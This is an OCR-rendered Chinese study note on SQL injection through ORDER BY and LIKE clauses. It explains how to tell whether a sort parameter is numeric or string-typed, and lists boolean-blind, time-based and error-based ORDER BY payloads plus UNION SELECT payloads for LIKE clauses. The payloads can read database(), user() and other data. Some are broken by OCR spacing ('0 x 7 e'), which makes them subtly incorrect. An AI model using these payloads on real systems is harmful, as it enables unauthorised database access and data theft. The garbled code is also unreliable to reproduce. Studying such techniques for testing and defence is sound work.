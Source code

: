## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5) 不可。
select * from users order by if(concat(0 x 7 e,user(), 0 x 7 e), 1,sleep(3));
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
```

^
## **like**
like可以使用联合注入。
like一般也在where语句之后。
```
1、where like xx
where like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where like "xx"
where like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```